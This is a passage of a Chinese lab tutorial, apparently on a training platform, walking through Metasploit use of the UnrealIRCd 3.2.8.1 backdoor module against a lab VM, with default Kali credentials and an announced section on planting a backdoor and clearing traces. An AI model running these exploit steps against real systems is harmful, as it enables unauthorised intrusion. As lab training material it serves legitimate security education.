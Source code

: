注意由于虚拟机启动需要时间，大概要等一分钟左右我们就可以使用 SSH 访问两台虚拟机了。

首先使用 SSH 连接到 Kali，我们大部分的攻击操作都需要在 Kali 虚拟机中进行，注意用户名root，密码 toor 是不显示的，使用命令 `ssh root@kali` 即可，因为当前实验环境中已经把 IP 地址和主机名的对应写入到了 `/etc/hosts` 文件中，避免输入不好记的 IP 地址：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479890676283.png-wm)

现在两台实验环境都已经启动，我们即将对目标主机进行渗透测试。


## 三、 创建访问后门

下面我们将会学习创建访问后门。

### 3.1 渗透目标主机

这里我们使用 Unreal Ircd 服务漏洞，先取得所要渗透的目标主机的权限，接着再进行攻击后清除痕迹并创建后门程序。

> 后门程序一般是指那些绕过安全性控制，而获取对程序或系统访问权的程序方法。在软件的开发阶段，程序员常常会在软件内创建后门程序以便可以修改程序设计中的缺陷。但是，如果这些后门被其他人知道，或是在发布软件之前没有删除后门程序，那么它就成了安全风险，容易被黑客当成漏洞进行攻击。

接下来我们将对创建简单的后门程序进行演示。

首先在 Kali 的程序命令终端中，输入命令，查找 Unreal Ircd 的可用模块：

```
# 打开终端 MSF

sudo msfconsole

# 查找相应的漏洞模块

search unreal_ircd
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480487305059.png-wm)

在 Kali 终端中，输入命令使用该模块：

```
# 使用 use 命令，使用相应的模块

use exploit/unix/irc/unreal_ircd_3281_backdoor
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480487734597.png-wm)

使用 show 命令显示参数，并设置相应的参数：

```
# 显示所要设置的参数
show options

# 使用命令，设置参数
set RHOST 192.168.122.102

```
